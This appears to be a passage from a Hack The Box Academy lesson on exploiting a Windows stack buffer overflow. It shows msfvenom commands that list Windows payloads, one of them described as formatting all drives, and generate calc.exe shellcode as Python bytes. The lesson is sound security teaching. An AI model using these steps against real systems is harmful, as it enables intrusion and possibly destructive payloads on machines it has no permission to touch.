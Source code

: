 So far in our exercise to identify and exploit a stack-based buffer overflow vulnerability, we have done the following:

1. Fuzzed Parameters
2. Controlled EIP
3. Identified Bad Characters
4. Found a Return Instruction

The final step is to write some shellcode on the stack that gets executed when the Return Addresses we found earlier are executed since we look for addresses of instructions that execute the code written on the top of the stack.

---

## Shellcode Generation

We've thoroughly discussed shellcode generation in the [Intro to Assembly Language](https://academy.hackthebox.com/course/preview/intro-to-assembly-language) module and the various methods to do so. In some instances, we may find ourselves limited to a very short buffer space, where we would not have many bytes to write to and may have to use one of the methods discussed to generate a short shellcode. However, we are dealing with thousands of bytes of buffer in our case, so we would not have to worry about such limitations.

So, to generate our shellcode, we will use `msfvenom`, which can generate shellcodes for Windows systems, while tools like `pwntools` currently only support Linux shellcodes.

First, we can list all available payloads for `Windows 32-bit`, as follows:

  Jumping to Shellcode

```shell-session
frodonomojo@htb[/htb]$ msfvenom -l payloads | grep

...SNIP...
    windows/exec                                        Execute an arbitrary command
    windows/format_all_drives                           This payload formats all mounted disks in Windows (aka ShellcodeOfDeath). After formatting, this payload sets the volume label to the string specified in the VOLUMELABEL option. If the code is unable to access a drive for
    windows/loadlibrary                                 Load an arbitrary library path
    windows/messagebox                                  Spawns a dialog via MessageBox using a customizable title, text & icon
...SNIP...
```

For initial testing, let's try `windows/exec` and execute `calc.exe` to open the Windows calculator if our exploit is successful. To do this, we'll use `CMD=calc.exe`, `-f 'python'` since we are using a python exploit, and `-b` to specify any bad characters:

  Jumping to Shellcode

```shell-session
frodonomojo@htb[/htb]$ msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00'

...SNIP...
buf =  b""
buf += b"\xd9\xec\xba\x3d\xcb\x9e\x28\xd9\x74\x24\xf4\x58\x29"
buf += b"\xc9\xb1\x31\x31\x50\x18\x03\x50\x18\x83\xc0\x39\x29"
buf += b"\x6b\xd4\xa9\x2f\x94\x25\x29\x50\x1c\xc0\x18\x50\x7a"
...SNIP...
```
